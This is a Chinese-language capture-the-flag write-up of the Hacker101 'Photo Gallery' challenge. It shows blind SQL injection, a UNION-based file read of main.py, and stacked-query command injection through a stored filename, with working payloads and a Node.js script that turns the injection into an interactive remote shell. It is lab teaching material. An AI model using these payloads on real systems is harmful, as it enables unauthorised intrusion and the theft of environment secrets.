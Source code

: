 ```yaml
---
title: Hacker 101 CTF Write Up Part 4 - Photo Gallery
categories: Security
date: 2019-09-10 22:28:20
tags: [CTF, security]
header-img: /images/banner.jpg
catalog: true
---
```


# Photo Gallery

<!-- more -->

## 0x00 
一開始畫面長這樣  
![](/images/ctf/part4-photo-1-01.png)

發現原始碼有一個 fetch?id=1  
![](/images/ctf/part4-photo-1-02.png)

點進去網址發現回傳一個 jpg 的 text 檔案  
![](/images/ctf/part4-photo-1-03.png)

從這可以推測他是用 id 去 mysql 取出 filename 然後讀出來的  
加個 ' 發現好像沒有 SQL Injection 的存在，但卻出現 `500 Internal Server Error`  
可能程式有哪邊出錯了，繼續往下測試  
![](/images/ctf/part4-photo-1-04.png)

不過當改下 `fetch?id=1 union all select 1` 以及 `fetch?id=1 union all select 1,2` 發生一點不同變化
前者出現跟 `fetch?id=1` 結果一模一樣 (上圖)  
後者卻出現 `500 Internal Server Error` (下圖)  
![](/images/ctf/part4-photo-1-05.png)
![](/images/ctf/part4-photo-1-06.png)

看來就是有 SQL Injection 的問題了  
接下來找到可以用 `fetch?id=1 and length(database()) = 6` 這種方式去判斷後者是否為 true  
思路大概跟這篇做法一樣 https://www.hackthis.co.uk/articles/blind-sql-injection  
用各種 `length()` 以及 `like '______'` 的方式可以找到相對應的值  
這邊就直接丟 sqlmap 把整個 table dump 出來了  
就發現 FLAG 了
![](/images/ctf/part4-photo-1-07.png)

## 0x01

這提跟前一提的 `fetch?id=1 union all select 1` Payload 有關係  
前面有提到是透過 id 去撈 filename 回來去顯示  
改成 `fetch?id=123123 union all select "files/adorable.jpg"` 發現可以正確觸發  
![](/images/ctf/part4-photo-2-01.png)

LFI 漏洞就出現了，我可以任意去讀檔案了  
本來想說這 php 寫的網站用以下的 payload，結果取得不到 ...  
`fetch?id=123123 union all select "index.php"`
![](/images/ctf/part4-photo-2-02.png)

後來看提示才知道這是用 uwsgi-nginx-flask-docker image 做的  
此 image 原始碼在放在 main.py，所以改成以下 payload 就讀到原始碼，發現第二個 FLAG
`fetch?id=123123 union all select "main.py"`
![](/images/ctf/part4-photo-2-03.png)

## 0x02

看到 source code 之後，發現在取得 used space 那邊有 command injection 的問題  
`subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1]`  
只要能在 filename 加上 ; 再加上後面想要執行的指令就可以觸發 CI 的問題了  
但要觸發他必須要靠 photos table 裡面的 filename 去觸發  
一開始嘗試使用 stacked query 的方式，以下為 payload  
`541; UPDATE photos SET filename = '; ls ' WHERE id = 3;`  

試了很久完全沒有任何反應，本來以為不是 stacked query 這條路  
結果回去翻題目的提示有提到 COMMIT 這個關鍵字  
才想到有時候 SQL 指令下 UPDATE 變更完並不會馬上生效  
而是要下 `COMMIT;` UPDATE 的語法才會真正觸發  
於是 Payload 改成以下這樣就成功了，下面變成 uwsgi.ini 了  
`fetch?id=541; UPDATE photos SET filename = "; ls" WHERE id = 3; COMMIT;`
![](/images/ctf/part4-photo-3-01.png)

然後根據 main.py 的 regex 修改一下，然後寫出一個可以一直輸入 command 的 node.js 程式
```javascript=
function inputFunction(readline) {
    readline.question(`Keep input\n\n`, async (command) => {
        const axios = require('axios')
        await axios({
            method: 'GET',
            url: 'http://34.74.105.127/8142a5acbe/fetch',
            params: {
                id: `541; UPDATE photos SET filename = '; ${command} | tr "\\n" ";" ' WHERE id = 3; COMMIT;`
            }
        }).then(response => response.data).catch((err) => {
            return;
        })
        let result = await axios({
            method: 'GET',
            url: 'http://34.74.105.127/8142a5acbe/'
        }).then(response => response.data)
        console.log('\n' + result.split('Space used: ')[1].split('</i></div>')[0].replace(/;/g, "\n"));  
        inputFunction(readline)
    })
}
(() => {
    const readline = require('readline').createInterface({
        input: process.stdin,
        output: process.stdout
    })
    inputFunction(readline)
})()
```

但是逛了老半天 ... 完全不知道 flag 放在哪裡  
跑回去看題目提示到 『enviroment』，才想到有可能放在應用程式裡面的環境  
最後下一個 `printenv` 就拿到 FLAG 了 ！
![](/images/ctf/part4-photo-3-02.png)

簡單 demo 影片  
![](/images/ctf/part4-photo-demo.gif)

# 後記  

這題蠻有趣的，學到 stacked query、command injection 以及 LFI
不過過程中有些真的不知道怎麼做，跑去看提示才知道  
不然真的瞎子摸象摸不太出來 QQ  